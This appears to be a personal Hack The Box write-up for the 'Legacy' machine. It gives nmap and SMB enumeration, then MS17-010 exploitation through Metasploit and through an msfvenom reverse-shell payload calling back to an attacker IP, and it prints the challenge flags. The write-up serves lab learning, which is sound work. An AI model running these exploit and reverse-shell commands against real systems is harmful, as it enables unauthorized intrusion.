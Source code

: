 # Enumeration
## nmap
`nmap -sV -A -v 10.10.10.4 -Pn`
![[Screenshot 2022-05-12 at 13.17.39.png]]

## [SMB](https://www.hackingarticles.in/smb-penetration-testing-port-445/)
`nmap -script smb-vuln* -p 445 10.10.10.4 -Pn`
![[Screenshot 2022-05-12 at 13.25.52.png]]
Using _msfconsole_ and `auxiliary/scanner/smb/smb_ms17_010`
![[Screenshot 2022-05-12 at 13.57.41.png]]

# Exploit - msfconsole
1. `use exploit windows/smb/ms17_010_psexec`
2. `set rhosts 10.10.10.4`
3. `set lhosts 10.10.14.19`
4. `exploit`
--> this gave a meterpreter:
![[Screenshot 2022-05-12 at 14.20.02.png]]
Going to the documents and settings directory we find the user _john_ together with other 
![[Screenshot 2022-05-12 at 14.21.17.png]]
`cat john/Desktop/user.txt` gave the user flag

# Privesc
![[Screenshot 2022-05-12 at 14.21.58.png]]

Trying to get winpeasx86 using `wget` and `curl` did not work.

by simply running `getuid` I saw we were already _NT AUTHORITY\SYSTEM_ which meant we already had admin privileges, so I proceeded to simply `cat Administrator/Desktop/root.txt`

# Privesc without metasploit
1. `git clone https://github.com/helviojunior/MS17-010.git`
2. `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_shell.exe` to create payload
3. `python MS17-010.git/send_and_execute.py 10.10.10.4 rev_shell.exe`

This would create a shell in the listener - however I had issues with the impacket module as the send_and_execute.py was written for python2 and I onky have impacket for python3...

I fixed this ^ by doing the following:
1. /HTB/legacy/impacket> `pip2 install .`
2. /HTB/legacy> `python2 send_and_execute.py 10.10.10.4 rev_shell.exe`
set up a nc listener on the port from the payload code made and got a shell + the flags:
![[Screenshot 2022-05-12 at 15.13.55.png]]
# Flags
e69af0e4f443de7e36876fda4ec7644f
993442d258b0e0ec917cae9e695d5713
# Thoughts
- very easy --> good reminder for using meterpreter but did not really learn much in terms of how to use SMB...
# New Things Learnt
- using nmap script for more specific enumeraiton
- [smb enumeration](https://www.hackingarticles.in/smb-penetration-testing-port-445/)
- msf/meterpreter/metasploit is not accepted by OSCP, so from now I will do it without this (or try that frst then the other way..)

# other smb enumeration
1. `smbmap -H 10.10.10.4`
2. `smbclient -N -L //10.10.10.4`